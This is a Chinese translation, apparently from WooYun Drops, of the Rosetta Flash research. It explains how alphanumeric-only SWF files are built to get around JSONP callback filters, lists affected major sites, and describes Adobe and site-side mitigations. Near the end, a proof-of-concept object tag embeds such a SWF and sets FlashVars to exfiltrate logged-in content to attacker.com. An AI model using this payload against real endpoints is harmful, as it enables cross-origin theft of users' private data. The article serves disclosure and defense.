

# 上传文件的陷阱 II 纯数字字母的 swf 是漏洞么?

2014/07/14 11:40 | [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:http://miki.it/blog/2014/7/8/abusing-jsonp-with-rosetta-flash/

## 0x00 背景

* * *

在上一篇上传文件的陷阱([`drops.wooyun.org/tips/2031`](http://drops.wooyun.org/tips/2031))当中,作者提到对于 flash 的跨域数据 劫持,有时并不需要我们去上传一个文件。因为我们可以简单的利用 JSONP 接口,将 flash 的内容赋 值给 callback 加以利用。就像在评论中@Sogili 提到的那样,利用 JSONP 的部分确实可以看作是整个 文章的“高潮点”。因为在多数情况下:

```
1.一个不会验证文件格式的上传点并没有那么好找
2.有时候我们找不到文件的真正路径,有时候文件会被强制下载
3.即使我们找到了不受条件[1]和[2]约束的上传点,也有可能会遭到“文件访问权限”的困扰! 
```

当然这些也只是我在试图利用这种方法时遇到的一些困难,实际上也许还会有更复杂和更难以利⽤用的场景。相比之下如果是利用 JSONP,事情就可能会变得相对简单一些。但实际上利⽤JSONP callback APIs 道路也并没有那么平坦。因为很多开发者会对 json 的 callbacks 做一些限制。比如:

```
只允许[a-zA-Z]和 _ 和 . 
```

先不论这种做法的好坏和正确性,首先我们必须得承认这种做法确实可以在某种程度上减少大部分的安全隐患。但是这样就真的安全了么?很明显,答案是否定的。为了证明这种防范措施依然是极 度脆弱的,作者开发了一个名为 Rosetta Flash 的工具。就像⽂文章的标题所描述的那样,利用该工具 可以帮助我们创建纯数字字母的 swf 文件。有了这种格式的 swf 在手,上述的 callbacks 限制也就自然 是浮云了。光凭说,好像完全没有说服力。让我们看看这种 bypass 问世后都有哪些大站躺枪:

```
* Google 的⼀一些站点,如:accounts.google.com,主站和 books,maps 等分站
* Youtube
* Twitter
* Instagram
* Tumblr
* Lark
* eBay 
```

写(翻译)到这里时才发现这个铺垫确实有点长了。下面就让我们来看看笔者的这把剑(Rosetta Flash)是怎么磨出来的吧。

## 0x01 Rosetta Flash

* * *

这种纯数字字母的 swf 的制作原理,主要就是将一般的 swf 二进制内容通过 zlib 压缩后再进行输出。 使用点对点的哈弗曼编码将非法字符映射为合法字符。当然了,严格的来说这种做法并不能被称作 是真正意义上压缩。


通常,一个 Flash 文件既可以是没有被压缩过的(神奇的 FWC 字节),也可以是经过 zlib(神奇的 CWS 字节)或 LZMA(神奇的 ZWS 字节)压缩过的。

SWF 的头格式如下图所示:


由于 Flash 解析器具有极高的自由度(如下图)和忽略无效字节的特性,借助这种特性就可以让我们得到我们想要的字符。


首先我们要搞定 zlib 头中经过 DEFLATE(同时使用了 LZ77 与哈夫曼编码的一种无损数据压缩算法)压缩过的前两个字节。我使用下面的方法搞定了其中的第一个字节:



再通过这种方式搞定了其第二个字节:


虽然不存在太多这样的组合(两个字节)可以同时通过 CMF+CINFO+FLG,但是 0x68 0x43=hc 恰好是符合的。

所以在 Rosetta Flash 当中我也使⽤用了这两个字节。

在搞定 zlib 头中的前两个字节后,还需要我们暴⼒破解其中的 ADLER32 校验(checksum)。

因为就像对其它部分所要求的那样,我们的 checksum 也必须是纯数字字母组成的。

在这里我们就使用了一种比较聪明的做法来获取由`[a-zA-Z0-9_\.]`构成的 checksum。


对于我们来说,不论是 S1 还是 S2 都必须是由数字字母来构成的。

但问题是,我们要怎么去处理这个未压缩过的 swf 来获取这样的 checksum 呢?值得庆幸的是,SWF 文件格式允许我们在其尾部加入任意字节。

而且这些字节是会被忽略的。这一特性帮助我搞定了 S1 和 S2。我称之为 Sleds + Deltas 技术。


我们需要做的就是不停添加高位的 seld 直到出现一个单字节可以让 S1 模数溢出。

随后再添加 delta. 通过这种手法,我们就可以获取一个合法的 S1.之后我们在通过添加一个空字节的 sled 直到 S2 的模数溢出,最终就可以得到一个合法的 S2 了。

在经过这一切的处理之后,我们得到了一个 checksum 和 zlib 头均为合法的数字字母的原始 swf⽂件。

现在让我们使用哈夫曼的魔法将所有的一切转换成我们需要的`[a-zA-Z0-9_\.]`吧。


在这里我们使用了两个哈夫曼 encoder 来提高我们程序的效率。

如果你想了解更多的细节,可以在 Github 上查阅 Rosetta Flash 的源代码:[`github.com/mikispag/rosettaflash/`](https://github.com/mikispag/rosettaflash/)

最终,按字节输出的效果会是这样:


最终我们得到我们一直期盼的纯数字字母的 SWF:


相关 POC(AS2 代码):


我们将其编译为 swf(未压缩),再用 Rosetta Flash 对其进行转换,最终得到:


```
<object type="application/x-shockwave-flash" data="https://vulnerable.com/endpoint? callback=CWSMIKI0hCD0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7iiudIbEAt333swW0ssG03sDDtDDDt0333333Gt333swwv3wwwFPOHtoHHvwHHFhH3D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7YNqdIbeUUUfV13333333333333333s03sDTVqefXAxooooD0CiudIbEAt33swwEpt0GDG0GtDDDtwwGGGGGsGDt33333www033333GfBDTHHHHUhHHHeRjHHHhHHUccUSsgSkKoE5D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7YNqdIbe13333333333sUUe133333Wf03sDTVqefXA8oT50CiudIbEAtwEpDDG033sDDGtwGDtwwDwttDDDGwtwG33wwGt0w33333sG03sDDdFPhHHHbWqHxHjHZNAqFzAHZYqqEHeYAHlqzfJzYyHqQdzEzHVMvnAEYzEVHMHbBRrHyVQfDQflqzfHLTrHAqzfHIYqEqEmIVHaznQHzIIHDRRVEbYqItAzNyH7D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAt33swwEDt0GGDDDGptDtwwG0GGptDDww0GDtDDDGGDDGDDtDD33333s03GdFPXHLHAZZOXHrhwXHLhAwXHLHgBHHhHDEHXsSHoHwXHLXAwXHLxMZOXHWHwtHtHHHHLDUGhHxvwDHDxLdgbHHhHDEHXkKSHuHwXHLXAwXHLTMZOXHeHwtHtHHHHLDUGhHxvwTHDxLtDXmwTHLLDxLXAwXHLTMwlHtxHHHDxLlCvm7D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtuwt3sG33ww0sDtDt0333GDw0w33333www033GdFPDHTLxXThnohHTXgotHdXHHHxXTlWf7D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtwwWtD333wwG03www0GDGpt03wDDDGDDD 33333s033GdFPhHHkoDHDHTLKwhHhzoDHDHTlOLHHhHxeHXWgHZHoXHT HNo4D0Up0IZUnnnnn nnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAt33wwE03GDDGwGGDDGDwGtwDtwDDGGDDtGDwwGw0GDDw0w33333www033GdFPHLRDXthHHHLHqeeorHthHHHXDhtxHHHLravHQxQHHHOnHDHyMIuiCyIYEHWSsgHmHKcskHoXHLHwhHHvoXHLhAotHthHHHLXAoXHLxUvH1D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3SnnwWNqdIbe133333333333333333WfF03sTeqefXA888oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo888888880Nj0h" style="display: none"> <param name="FlashVars" value="url=https://vulnerable.com/account/sensitive_content_logged_in&exfiltrate=http://attacker.com/log.php"> </object> 
```

## 0x02 缓解措施和修复

* * *

*来⾃自 Adobe 的缓解措施

针对于这种情况,Adobe 推出了修复版本 14.0.0.125,并提到此次的修复会对 flash 进⾏行验证来组织 JSONP callback APIs 的利用问题。

*来⾃自⺴⽹网站拥有者的缓解措施

可以通过设定

```
HTTP header Content-Disposition: attachment; filename=f.txt 
```

来强制进⾏文件下载。

这种方式对于 Flash 10.2 以后的版本来说是完全足够的。然⽽而对于 content sniffing 攻击,我们可以在 callback 内容的最前⾯面加上/**/来进行良好的防御(这也是⾕谷歌,facebook 和 Github 一直在采取的措施)。当然我们也可以通过设定

```
X-Content-Type-Options: nosniff 
```

来防御 Opera 和 Chrome 下的 content sniffing 攻击。在这些浏览器下,Flash 播放器一旦发现 Content-type 不为 application/x- shockwave-flash 就会拒绝 swf⽂文件的执行。

版权声明：未经授权禁止转载 [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一些你可能不知道的 Flash XSS 技巧](http://drops.wooyun.org/papers/948)
*   [360hackgame writeup](http://drops.wooyun.org/tips/1666)
*   [上传文件的陷阱](http://drops.wooyun.org/tips/2031)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [一种自动化检测 Flash 中 XSS 方法的探讨](http://drops.wooyun.org/tips/1985)
*   [Web 前端攻防](http://drops.wooyun.org/tips/2686)